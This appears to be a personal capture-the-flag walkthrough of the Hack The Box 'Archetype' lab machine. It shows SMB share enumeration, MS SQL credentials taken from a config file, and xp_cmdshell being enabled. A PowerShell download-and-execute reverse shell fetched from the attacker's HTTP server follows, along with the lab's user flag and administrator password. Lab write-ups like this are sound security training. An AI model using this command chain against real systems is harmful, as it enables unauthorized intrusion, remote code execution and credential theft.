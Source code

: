 # Archetype (10.10.10.27) Services
[[archetype (10.10.10.27)]]
## SMB
1. List
	```
	tyler@tyler-ops:~$ smbclient -L 10.10.10.27
	Enter WORKGROUP\tyler's password: <empty>
	
		Sharename       Type      Comment
		---------       ----      -------
		ADMIN$          Disk      Remote Admin
		backups         Disk
		C$              Disk      Default share
		IPC$            IPC       Remote IPC
	SMB1 disabled -- no workgroup available
	```
	![[Pasted image 20210816141309.png]]
2. //10.10.10.27/backups/
	```
	tyler@tyler-ops:~$ smbclient //10.10.10.27/backups
	Enter WORKGROUP\tyler's password: <empty>
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Mon Jan 20 04:20:57 2020
	  ..                                  D        0  Mon Jan 20 04:20:57 2020
	  prod.dtsConfig                     AR      609  Mon Jan 20 04:23:02 2020

					10328063 blocks of size 4096. 8258776 blocks available
	```
	![[Pasted image 20210816141648.png]]
3. //10.10.10.27/backups/prod.dtsConfig
		- Extracted MS SQL credentials:
			- User: `ARCHETYPE\sql_svc`
			- Pass: `M3g4c0rp123`
	```
	<ConfiguredValue>
	Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;	
	</ConfiguredValue>
	```
	![[Pasted image 20210816144800.png]]
4. //10.10.10.27/ADMIN$/
	- Inaccessible with guest account
5. //10.10.10.27/C$/
	- Inaccessible with guest account
6. //10.10.10.27/IPC$/
	- Empty with guest account

## MS SQL
1. Anonymous Authentication (Failed)
2. Authenticate as ARCHETYPE\sql_svc
	```
	tyler@tyler-ops:~/Documents/learn/htb/starting_point/archetype$ mssqlclient.py -windows-auth ARCHTYPE/sql_svc:M3g4c0rp123@10.10.10.27
	Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

	[*] Encryption required, switching to TLS
	[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
	[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
	[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
	[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
	[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
	[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
	[!] Press help for extra shell commands
	SQL> help

		 lcd {path}                 - changes the current local directory to {path}
		 exit                       - terminates the server process (and this session)
		 enable_xp_cmdshell         - you know what it means
		 disable_xp_cmdshell        - you know what it means
		 xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
		 sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
		 ! {cmd}                    - executes a local shell cmd

	SQL>
	```
	![[Pasted image 20210816150405.png]]
3. enable_xp_cmdshell
4. Start http server
	- `python3 -m http.server`
5. Listen on port 3602
	- `ncat -nvlp 3602`
6. Execute Revershell
	```
	xp_cmdshell powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.54:8000/scripts/twof_reverse_shell.ps1\");`
	```
	```
	tyler@tyler-ops:~/Documents/learn/htb/starting_point/archetype$ ncat -nvlp 3602
	Ncat: Version 7.91 ( https://nmap.org/ncat )
	Ncat: Listening on :::3602
	Ncat: Listening on 0.0.0.0:3602
	Ncat: Connection from 10.10.10.27.
	Ncat: Connection from 10.10.10.27:49675.
	whoami
	archetype\sql_svc
	```
	![[Pasted image 20210816154950.png]]
	- Reverse shell based on script from [PayloadsAllTheThings](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)
7. Found user flag
	```
	cd C:\Users\sql_svc\Desktop

	pwd

	Path
	----
	C:\Users\sql_svc\Desktop



	cat user.txt
	3e7b102e78218e935bf3f4951fec21a3
	```
	![[Pasted image 20210816155229.png]]
	- User flag: `3e7b102e78218e935bf3f4951fec21a3`
8. Found admin credentials
	```
	cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine

	cat ConsoleHost_history.txt
	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
	exit
	```
	![[Pasted image 20210816160541.png]]
	- User: `administrator`
	- Pass: `MEGACORP_4dm1n!!`